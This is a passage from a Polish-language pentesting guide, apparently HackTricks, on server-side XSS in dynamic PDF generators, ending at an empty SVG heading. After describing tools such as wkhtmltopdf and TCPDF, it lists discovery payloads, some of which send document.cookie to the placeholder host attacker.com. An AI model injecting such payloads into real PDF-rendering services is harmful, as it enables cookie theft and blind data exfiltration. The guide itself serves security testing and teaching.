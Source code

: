 # Server Side XSS (Dynamiczny PDF)

<details><summary><strong>Dowiedz się, jak hakować AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary></details>

## Server Side XSS (Dynamiczny PDF)

Jeśli strona internetowa tworzy plik PDF przy użyciu kontrolowanego przez użytkownika wejścia, można spróbować **oszukać bota**, który tworzy PDF, aby **wykonał dowolny kod JS**.\
Jeśli **bot tworzący PDF znajdzie** jakieś **tagi HTML**, to je **zinterpretuje**, a ty możesz **wykorzystać** to zachowanie, aby spowodować **Server XSS**.

Należy jednak zauważyć, że tagi `<script></script>` nie zawsze działają, więc będziesz potrzebować innej metody do wykonania JS (na przykład, wykorzystując `<img` ).\
Należy również zauważyć, że w przypadku zwykłego ataku będziesz **mógł zobaczyć/pobrać utworzony plik PDF**, więc będziesz mógł zobaczyć wszystko, co **napiszesz za pomocą JS** (używając np. `document.write()`). Jednak jeśli **nie możesz zobaczyć** utworzonego pliku PDF, prawdopodobnie będziesz musiał **wydobyć informacje, wykonując żądanie sieciowe do siebie** (ślepy atak).

### Popularne narzędzia do generowania PDF

- **wkhtmltopdf** jest znane z możliwości konwertowania HTML i CSS na dokumenty PDF, wykorzystując silnik renderowania WebKit. Narzędzie to jest dostępne jako otwarte narzędzie wiersza poleceń, co czyni je dostępnym dla szerokiego spektrum zastosowań.
- **TCPDF** oferuje solidne rozwiązanie w ekosystemie PHP do generowania plików PDF. Jest ono zdolne do obsługi obrazów, grafiki i szyfrowania, co pokazuje jego wszechstronność w tworzeniu złożonych dokumentów.
- Dla osób pracujących w środowisku Node.js, **PDFKit** stanowi wygodną opcję. Umożliwia generowanie dokumentów PDF bezpośrednio z HTML i CSS, tworząc most między treścią internetową a formatami do druku.
- Deweloperzy Javy mogą preferować **iText**, bibliotekę, która nie tylko ułatwia tworzenie plików PDF, ale także obsługuje zaawansowane funkcje, takie jak podpisy cyfrowe i wypełnianie formularzy. Jej kompleksowy zestaw funkcji sprawia, że jest odpowiednia do generowania bezpiecznych i interaktywnych dokumentów.
- **FPDF** to kolejna biblioteka PHP, wyróżniająca się prostotą i łatwością użycia. Jest przeznaczona dla programistów poszukujących prostego podejścia do generowania plików PDF, bez konieczności korzystania z rozbudowanych funkcji.


## Payloady

### Odkrywanie
```markup
<!-- Basic discovery, Write somthing-->
<img src="x" onerror="document.write('test')" />
<script>document.write(JSON.stringify(window.location))</script>
<script>document.write('<iframe src="'+window.location.href+'"></iframe>')</script>

<!--Basic blind discovery, load a resource-->
<img src="http://attacker.com"/>
<img src=x onerror="location.href='http://attacker.com/?c='+ document.cookie">
<script>new Image().src="http://attacker.com/?c="+encodeURI(document.cookie);</script>
<link rel=attachment href="http://attacker.com">
```
### SVG
